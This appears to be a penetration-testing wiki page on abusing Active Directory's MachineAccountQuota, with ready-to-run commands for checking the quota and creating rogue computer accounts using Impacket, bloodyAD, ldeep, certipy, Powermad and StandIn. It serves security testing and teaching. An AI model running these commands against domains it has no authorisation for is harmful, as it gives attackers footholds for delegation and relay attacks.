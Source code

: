 ## Theory
MachineAccountQuota (MAQ) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory (AD) domain
## Exploit
There are multiple ways attackers can leverage that power.

- Force client authentications, relay those authentications to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon (i.e. with BloodHound for example)
- Create a computer account and use it for Kerberos RBCD attacks when leveraging owned accounts with sufficient permissions (i.e. ACEs like `GenericAll, GenericWrite or WriteProperty`) against a target machine
- Create a computer account and use it for a Kerberos Unconstrained Delegation attack when leveraging owned accounts with sufficient permissions (i.e. the `SeEnableDelegationPrivilege` user right)
- Profit from special rights that members of the Domain Computers group could inherit
- Profit from special rights that could automatically be applied to new domain computers based on their account name
### Check value
=== "UNIX-like"
    The MachineAccountQuota module (for NetExec (Python)) can be used to check the value of the MachineAccountQuota attribute:
    ```bash
    nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
    ```
    Or alternatively with bloodyAD
    ```bash
    bloodyad -d $DOMAIN -u $USER -p $PASSWORD --host $DOMAIN_CONTROLLER get object 'DC=acme,DC=local' --attr ms-DS-MachineAccountQuota
    ```
    With [ldeep](https://github.com/franc-pentest/ldeep):
    ```bash
    ldeep ldap -d $DOMAIN -u $USER -p $PASSWORD -s $DOMAIN_CONTROLLER search '(objectclass=domain)' | jq '.[]."ms-DS-MachineAccountQuota"'
    ```
    With ldapsearch(C):
    ```bash
    ldapsearch -x -H ldap://$DOMAIN_CONTROLLER -b 'DC=acme,DC=local' -D "$USER@$DOMAIN" -W -s sub "(objectclass=domain)" | grep ms-DS-MachineAccountQuota
    ```
=== "Windows"
    cmdlets `Get-ADDomain` and `Get-ADObject`, will help testers make sure the controlled domain user can create computer accounts (the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default).
    ```bash
    Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
    ```
    FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) project is an alternative in C# (.NET assembly) to perform some AD post-compromise operations
    ```bash
    StandIn.exe --object ms-DS-MachineAccountQuota=*
    ```
### Create a computer account
=== "UNIX-like"
    The Impacket script addcomputer (Python) can be used to create a computer account, using the credentials of a domain user the the MachineAccountQuota domain-level attribute is set higher than 0 (10 by default).
    ```bash
    addcomputer.py -computer-name 'SomeName$' -computer-pass 'SomePassword' -dc-host "$DC_HOST" -domain-netbios "$DOMAIN" "$DOMAIN"/"$USER":"$PASSWORD"
    ```
    with [bloodyAD](https://github.com/CravateRouge/bloodyAD):
    ```bash
    bloodyad -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --host "$DC_HOST" add computer 'SomeName$' 'SomePassword'
    ```
    with [ldeep](https://github.com/franc-pentest/ldeep):
    ```bash
    ldeep ldap -u "$USER" -p "$PASSWORD" -d "$DOMAIN" -s ldap://"$DC_HOST" create_computer 'SomeName$' 'SomePassword'
    ```
    with [certipy](https://github.com/ly4k/Certipy):
    ```bash
    certipy account create -username "$USER"@"$DOMAIN" -password "$PASSWORD" -dc-ip "$DC_HOST" -user 'SomeName$' -pass 'SomePassword' -dns 'SomeDNS'
    ```
    Certipy also offers option to set the UPN (-upn), SAM account name (-sam), SPNS (-spns) while creating the computer.
=== "Windows"
    The [Powermad](https://github.com/Kevin-Robertson/Powermad) module (PowerShell) can be used to create a domain computer account.
    ```bash
    $password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
    ```
    While the machine account can only be deleted by domain administrators, it can be deactivated by the creator account with the following command using the Powermad module.
    ```bash
    Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
    ```
    An alternative is to use FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) (C#, .NET assembly) project to create a new password account with a random password, disable the account, or delete it (with elevated privileges):
    ```bash
    # Create the account
    StandIn.exe --computer 'PENTEST01' --make

    # Disable the account
    StandIn.exe --computer 'PENTEST01' --disable

    # Delete the account (requires elevated rights)
    StandIn.exe --computer 'PENTEST01' --delete
    ```
!!! note
    Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`

